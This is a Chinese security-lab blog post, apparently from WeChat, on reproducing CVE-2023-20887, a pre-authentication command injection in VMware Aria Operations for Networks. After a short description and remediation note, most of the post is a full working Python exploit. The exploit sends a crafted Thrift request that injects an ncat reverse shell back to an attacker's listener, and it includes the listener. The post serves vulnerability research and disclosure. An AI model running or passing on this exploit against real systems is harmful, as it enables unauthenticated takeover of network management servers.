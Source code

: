 #  CVE-2023-20887漏洞复现

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 67个

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194503.png)  

**一. 漏洞介绍**

CVE-2023-20887 是 VMware Aria Operations for Networks 中的命令注入漏洞，可用于实现远程代码执行
(RCE)。正如 Summoning Team
的博客文章中所述，此漏洞的存在是由于两个问题的连锁反应。第一个问题是命令注入缺陷，但要到达易受攻击的代码，必须向由于 nginx
规则集而应被拒绝的端点发出请求。但是，该博客指出可以通过特制请求绕过该规则。通过在精心设计的请求中将这两个问题链接在一起，它将允许未经身份验证的攻击者实现
RCE。

CVE-2023-20888 是 VMware Aria Operations for Networks
中的一个反序列化漏洞。具有有效“成员”角色凭据的经过身份验证的攻击者可以使用精心设计的请求来执行反序列化攻击，从而导致 RCE。

CVE-2023-20889 是 VMware Aria Operations for Networks
中的一个信息泄露漏洞。具有网络访问权限的经过身份验证的攻击者可以执行命令注入攻击，这将导致数据泄露。

 **二. 影响范围**

 Aria Operations for Networks versions 6.2 / 6.3 / 6.4 / 6.5.1 / 6.6 / 6.7 /
6.8 / 6.9 / 6.10。

 **五. 漏洞修复**

            由于没有解决方法，VMware 建议更新到固定版本。

 **六. 漏洞检测POC**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     """VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCEVersion: 6.8.0.1666364233Exploit By: Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)A root cause analysis of the vulnerability can be found on my blog:https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-20887/"""import warningswarnings.filterwarnings("ignore", category=DeprecationWarning)import requestsfrom threading import Threadimport argparsefrom telnetlib import Telnetimport socketrequests.packages.urllib3.disable_warnings()  
      
      
    argparser = argparse.ArgumentParser()argparser.add_argument("--url", help="VRNI URL", required=True)argparser.add_argument("--attacker", help="Attacker listening IP:PORT (example: 192.168.1.10:1337)", required=True)  
    args = argparser.parse_args()  
      
      
      
    def handler():    print("(*) Starting handler")    t = Telnet()    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    s.bind((args.attacker.split(":")[0],int(args.attacker.split(":")[1])))    s.listen(1)    conn, addr= s.accept()    print(f"(+) Received connection from {addr[0]}")    t.sock = conn    print("(+) pop thy shell! (it's ready)")    t.interact()  
    def start_handler():    t = Thread(target=handler)    t.daemon = True    t.start()  
      
    def exploit():    url = args.url + "/saas./resttosaasservlet"    revshell = f'ncat {args.attacker.split(":")[0]} {args.attacker.split(":")[1]} -e /bin/sh'    payload = """[1,"createSupportBundle",1,0,{"1":{"str":"1111"},"2":{"str":"`"""+revshell+"""`"},"3":{"str":"value3"},"4":{"lst":["str",2,"AAAA","BBBB"]}}]"""    result = requests.post(url, headers={"Content-Type":"application/x-thrift"}, verify=False, data=payload)  
    print("VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCE || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)")start_handler()exploit()  
    try:    while True:        passexcept KeyboardInterrupt:    print("(*) Exiting...")    exit(0)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194505.png)

 **七.参考链接**  

  *   *   *   *   * 

    
    
     https://kb.vmware.com/s/article/92684https://nvd.nist.gov/vuln/detail/CVE-2023-20887https://securityonline.info/poc-released-for-vmware-aria-operations-for-networks-rce-cve-2023-20887-bug/https://www.helpnetsecurity.com/2023/06/15/cve-2023-20887-poc-exploit/https://github.com/sinsinology/CVE-2023-20887

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。文库内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

